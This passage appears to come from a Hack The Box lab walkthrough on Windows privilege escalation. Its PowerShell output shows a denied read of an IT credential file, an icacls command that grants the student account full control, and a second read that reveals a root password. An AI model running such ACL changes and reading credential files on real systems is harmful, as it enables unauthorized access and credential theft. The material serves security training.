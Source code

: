 #### Modifying the File ACL

```c
PS C:\> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

```c
PS C:\> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

#### Reading the File

```c
PS C:\> cat 'C:\Department Shares\Private\IT\cred.txt'

NIX01 admin
 
root:n1X_p0wer_us3er!
```

